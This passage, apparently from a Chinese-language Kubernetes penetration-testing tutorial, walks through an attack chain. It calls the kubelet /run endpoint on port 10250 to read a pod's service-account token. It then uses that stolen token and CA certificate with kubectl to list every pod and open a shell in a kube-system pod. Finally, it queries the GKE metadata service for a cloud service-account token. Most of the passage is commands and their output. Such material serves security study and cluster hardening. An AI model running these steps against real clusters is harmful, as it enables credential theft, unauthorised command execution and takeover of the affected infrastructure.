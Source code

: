 获得输入如下：

```
total 4
drwxrwxrwt3 root root   140  Nov  9 16:27 .
drwxr-xr-x3 root root   4.0K Nov  9 16:27 ..
lrwxrwxrwx1 root root   13   Nov  9 16:27 ca.crt -> ..data/ca.crt
lrwxrwxrwx1 root root   16   Nov  9 16:27 namespace -> ..data/namespace
lrwxrwxrwx1 root root   12   Nov  9 16:27 token -> ..data/token


```

查看 token:

```
curl -k -XPOST "https://k8-node:10250/run/kube-system/kube-dns-5b1234c4d5-4321/dnsmasq" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"


```

结果如下：

```
eyJhbGciOiJSUzI1NiI---SNIP---


```

在安装好 kubectl 后，利用获取的证书 `ca.crt` 和 `token`，对 kubernetes API server 进行访问

```
kubectl --server=https://1.2.3.4 --certificate-authority=ca.crt --token=eyJhbGciOiJSUzI1NiI---SNIP--- get pods --all-namespaces


```

根据返回的 pods 信息，指定 pod 获取执行 shell 的权限

```
kubectl exec -it metrics-server-v0.2.1-7f8ee58c8f-ab13f --namespace=kube-system--server=https://1.2.3.4  --certificate-authority=ca.crt --token=eyJhbGciOiJSUzI1NiI---SNIP--- /bin/sh


```

#### 4.4 GKE 的认证获取

GKE 和 AWS 之类的云平台会在本地提供元数据服务供开发者获得自己私有仓库的认证信息，如在 GKE 的机器上执行

```
curl http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token


```
